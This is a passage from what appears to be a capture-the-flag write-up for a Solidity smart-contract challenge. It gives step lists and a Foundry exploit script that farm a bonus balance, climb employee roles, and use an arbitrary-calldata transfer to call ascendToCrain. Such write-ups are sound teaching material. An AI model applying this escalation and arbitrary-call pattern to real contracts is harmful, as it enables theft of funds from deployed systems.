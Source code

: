 The second way is by calling `buyCredit()` function after becoming an employee. In the instance, they have given 7 ether as our wallet balance. So we can directly send 6 ether while calling the `buyCredit()` function, and it will set our balance to 6 ether.

Let's recall all the steps involved to exploit:

Below are the Exploit scripts:

### Script 1: Using `claimStartingBonus()`

1. Get a balance of at least 6 ether by calling `claimStartingBonus()` multiple times.
2. Become an employee by calling `becomeEmployee()`.
3. Become a manager by calling `becomeManager()`.
4. Become an executive by calling `becomeExecutive()`.
5. Call the `transfer` function by passing the address of the `Crain` contract as `to`, call data to invoke `ascendToCrain()` as `_message`, and value as 0. The value should be zero because `ascendToCrain()` is a non-payable function.
6. Call `isSolved()` and verify.

### Script 2: Using `buyCredit()`

1. Become an employee by calling `becomeEmployee()`.
2. Get a balance of 6 ether by calling `buyCredit()` and sending 6 ether.
3. Become a manager by calling `becomeManager()`.
4. Become an executive by calling `becomeExecutive()`.
5. Call the `transfer` function by passing the address of the `Crain` contract as `to`, call data to invoke `ascendToCrain()` as `_message`, and value as 0. The value should be zero because `ascendToCrain()` is a non-payable function.
6. Call `isSolved()` and verify.

Below are the Exploit scripts

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script} from "forge-std/Script.sol";
import {Setup} from "src/contracts/Setup.sol";

contract ExploitExecutive is Script {
    Setup public setup;

    function run() public {
        vm.startBroadcast();
        setup = Setup(0xD3AC2f52E7dCCe686BA20aD048079e094A047CEf);
        for (uint256 i = 0; i < 6; i++) {
            setup.cexe().claimStartingBonus();
        }
        setup.cexe().becomeEmployee();
        setup.cexe().becomeManager();
        setup.cexe().becomeExecutive();
        bytes memory data = abi.encodeWithSignature("ascendToCrain(address)", address(this));
        setup.cexe().transfer(address(setup.crain()), 0, data);
        vm.stopBroadcast();
    }
}

```

